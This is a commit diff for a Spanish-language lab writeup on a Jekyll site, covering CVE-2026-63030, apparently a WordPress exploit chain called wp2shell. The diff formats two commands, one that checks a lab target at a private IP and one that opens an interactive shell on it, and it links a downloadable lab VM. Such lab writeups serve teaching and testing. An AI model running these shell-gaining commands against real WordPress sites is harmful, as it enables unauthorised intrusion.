

Before and after one commit to Anonimo501/PocVault, a Jekyll site: the page built from writeups/cve-2026-63030/index.md, in a window 1280 px wide and 1400 px high, scrolled down 1364 px. Shown: the whole window at 98% size, without its empty margins (198-1081 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Revise CVE-2026-63030 writeup for clarity
Updated instructions and formatting in CVE-2026-63030 writeup.

````diff
--- a/writeups/cve-2026-63030/index.md
+++ b/writeups/cve-2026-63030/index.md
@@ -20,18 +20,24 @@ El presente análisis evalúa la cadena de exploits wp2shell, una falla crítica
 ## Paso 1: Check
 
 Podemos validar si nuestro objetivo es vulnerable con el comando:
+
+```bash
 python3 wp2shell.py check http://192.168.209.156:8080
+```
 
 ## Paso 2: análisis
 
 Una vez vemos que la victima es vulnerable enviamos el ataque con el siguiente comando:
+
+```bash
 python3 wp2shell.py shell http://192.168.209.156:8080 -i
+```
 
 ![Captura del análisis]({{ '/writeups/cve-2026-63030/01-wp2shell.png' | relative_url }})
 
-##Maquina de laboratorio
+## Maquina de lab
 
-Enlace: https://github.com/Anonimo501/WPSHELLVM
+- [Descargar maquina VM](https://github.com/Anonimo501/WPSHELLVM)
 
 ## Mitigación y aprendizajes
 
````
